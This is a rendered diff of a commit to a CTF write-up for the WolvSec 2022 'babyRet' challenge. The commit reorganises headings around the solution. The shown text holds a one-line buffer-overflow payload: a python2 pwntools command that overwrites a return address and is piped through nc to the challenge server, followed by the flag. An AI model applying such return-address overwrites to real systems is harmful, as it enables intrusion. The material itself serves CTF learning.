

Before and after one commit to MiguelCaputo/CTFs-writeups, a Markdown page: WolvSec 2022/babyRet.md, the part around the change printed below. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/WolvSec 2022/babyRet.md
+++ b/WolvSec 2022/babyRet.md
@@ -56,11 +54,12 @@ We got the dummy flag!
 > What is your favorite food?
 Cool.
 wsc{Th0s3_p3sky_STACKS!!!}
-
-## Flag
+## Payload
 
 ```
 python2 -c "from pwn import *; print 'A' * 24 + '\xb3\x11@\x00\x00\x00\x00'" | nc 107.191.51.129 5000
 ```
 
+## Flag
+
 > wsc{Th0s3_p3sky_STACKS!!!}
````
Also changed, not shown: other parts of WolvSec 2022/babyRet.md (+0 -2 lines), WolvSec 2022/babyre1.md (+1 -1 lines), WolvSec 2022/n33dle.md (+4 -4 lines), WolvSec 2022/Images/needle1.png (added), WolvSec 2022/Images/needle2.png (added), WolvSec 2022/Images/needle3.png (added), WolvSec 2022/Images/needle4.png (added).
